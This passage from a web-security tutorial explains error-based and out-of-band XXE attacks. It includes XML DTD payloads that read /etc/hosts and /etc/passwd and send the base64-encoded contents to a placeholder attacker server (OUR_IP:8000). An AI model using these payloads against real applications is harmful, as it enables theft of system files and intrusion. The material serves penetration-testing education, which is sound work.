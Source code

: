 > In some modern web servers, we may not be able to read some files, as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.
{: .prompt-alert}

### Error Based XXE 

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be **blind** to the XML output and so would not be able to retrieve the file content using our usual methods. f the web application displays runtime errors and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them or just reference a non-existing entity. If it display an error we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the file parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file. Now, we can call our external DTD script, and then reference the error entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.

## Blind Data Exfiltration 

### Out-of-bound Data Exfiltration

When we have no way to have anything printed on the web application response we can utilize a method known as **Out-of-bound** (**OOB**) **Data Exfiltration**, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS,... We will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the file parameter value as part of the URL being requested over HTTP, as follows:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
